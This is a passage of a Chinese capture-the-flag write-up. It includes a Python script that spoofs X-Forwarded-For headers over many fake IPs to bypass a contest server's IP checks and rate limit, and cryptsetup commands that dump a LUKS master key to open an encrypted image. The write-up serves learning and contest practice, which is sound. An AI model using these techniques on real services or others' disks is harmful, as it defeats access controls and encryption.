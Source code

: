 简单试了下，发现是经典的 `X-FORWARDED-FOR`，于是直接写脚本构造请求。唯一的坑就是有请求限速，所以我还加了个重试循环。

```python
succeed_ip=[]
while len(succeed_ip)!=256:
    for i in range(0,256):
        ip = f'{i}.1.1.1'
        if ip in succeed_ip: continue
        txt=requests.post('http://202.38.93.111:10888/invite/9900a95d-3a58-47c6-8a88-89a093ff9f16',
                            data={'ip':ip}, headers={'X-FORWARDED-FOR':ip}).text
        suc = '成功' in txt
        print(ip, suc)
        if suc:
            succeed_ip.append(ip)
```

## 加密的 U 盘

这道题给了两个 LUKS （Linux Unified Key Setup）加密的镜像，其中第一个镜像的密码是已知的。解密出来发现是一个`随机过程.txt`，里面是一些数学笔记，并没有什么卵用。加密方式看了眼是 `aes-xts-plain64`。

……然后我就跑偏了，以为是一个 known-plaintext attack。啃了半天资料然后看了一眼这道题 `general` 的 tag，又看了下通关人数，感觉不大对。然后我在一次错误的解密尝试中，想到了该不会 passphrase 和加密用的 key 是不同的吧（废话）。于是就了解到了 master key 这么个东西。

![meme1.jpg](https://i.loli.net/2021/10/30/mBenN6JK4z72FrM.jpg)

```sh
 sudo cryptsetup luksDump --dump-master-key /dev/loop1p1 # 获得 masterkey 的
 cat masterkey| xxd -r -p > masterkey.bin
 sudo cryptsetup --master-key-file masterkey.bin luksOpen /dev/loop1p1 day2
 mount /dev/mapper/day2 ./day2
 mkdir day2
 sudo mount /dev/mapper/day2 ./day2
 cat day2/flag.txt
```

## 图之上的信息

从 graphql 上拿数据的白给题。

![graphql.gif](https://i.loli.net/2021/10/30/kZHUCPoj7fSBFph.gif)

## 赛博厨房

这道题本质上是个挖矿题（雾）。前两题都是教程，就不讲了。第四小题我没做出来，也不讲了（x），重点说下第三题。

通过阅读代码得知，每一天的菜谱是由 `sha256( '\n'.join(sha256(prog) for prog in programs) )` 算出来的值作为随机数种子，然后 ARC4 随机生成出来的。由于 hash 和随机数算法都挺正经的，大概是没法直接碰撞了。

看了下这道题目有 32 种不同的菜，随机挑选 6 个（有顺序），那么有 P(32,6)=652458240 种可能性。感觉只要运气好，还是可以跑出来的。于是手动实现了一下 ARC4 随机算法（没找到现成的库），然后用巨快的 pypy 跑（其实 cpp 应该更快，只是懒了）。

代码写得丑就不贴了，思路就是先创建 32 个程序分别对应菜谱为 0,0,0,0,0,0; 1,1,1,1,1,1 ...即六个都一样的场景。然后开始写一个 dummy 程序，内容不重要，能过检查就好。
